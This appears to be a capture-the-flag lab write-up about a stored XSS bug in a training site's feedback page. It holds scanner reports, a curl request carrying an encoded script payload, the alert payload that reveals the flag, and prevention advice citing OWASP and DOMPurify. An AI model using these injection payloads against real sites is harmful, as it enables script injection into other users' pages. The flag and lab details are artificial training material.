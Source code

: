 [README.md](../../../README.md)
# XSS injection feedback page

## Reconnaissance
### ZAP report
```
Risk=High, Confidence=Medium (3)
http://10.13.200.51 (3)
Cross Site Scripting (Persistent) (1)
GET http://10.13.200.51/?page=feedback
Cross Site Scripting (Reflected) (1)
POST http://10.13.200.51/?page=feedback
```

### Wapiti Report
```
XSS vulnerability found via injection in the parameter txtName
POST /?page=feedback HTTP/1.1
Host: 10.13.200.53
Referer: http://10.13.200.53/?page=feedback
Content-Type: application/x-www-form-urlencoded

txtName=%3CScRiPt%3Ealert%28%27wererd0tey%27%29%3C%2FsCrIpT%3E&btnSign=Sign+Guestbook&mtxtMessage=Hi+there%21
curl "http://10.13.200.53/?page=feedback" -e "http://10.13.200.53/?page=feedback" -d "txtName=%3CScRiPt%3Ealert%28%27wererd0tey%27%29%3C%2FsCrIpT%3E&btnSign=Sign+Guestbook&mtxtMessage=Hi+there%21"
```

## Exploit
The most stupid test was successful:
- In the message field input: `<script>alert(1);</script>`
- The flag just pop.

**Flag:**
```
THE FLAG IS : 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E
```

## Prevention
- [Cross Site Scripting (XSS) | OWASP Foundation](https://owasp.org/www-community/attacks/xss/)
    - [Cross Site Scripting Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [CWE - CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') (4.13)](https://cwe.mitre.org/data/definitions/79.html)

XSS is a type of vulnerability where attackers inject malicious scripts into web pages.
Three main types of XSS vulnerabilities:
- **Reflected XSS**: Injected into the website's response.
- **Stored XSS**: Malicious script is stored on the server and then served to all the website users.
- **DOM-based XSS**: Occurs entirely on the user's browser rather than on the server. The payload is never sent to the server

In this case it would be a Stored XSS because the comment is stored and then served to all the users.

### How to prevent
- Modern web frameworks have fewer XSS bugs:
    - React Example: `dangerouslySetInnerHTML` should be explicitely used to be vulnerable
- Implement variable validation and/or sanitization
- Output encoding: variables should not be interpreted as code instead of text.
    - When you wish to display data as the user typed it in, start with your framework’s default output encoding protection.
- HTML Sanitization: will strip dangerous HTML from a variable and return a safe string.
    - [cure53/DOMPurify: DOMPurify - a DOM-only, super-fast, uber-tolerant XSS sanitizer for HTML, MathML and SVG. DOMPurify works with a secure default, but offers a lot of configurability and hooks. Demo:](https://github.com/cure53/DOMPurify)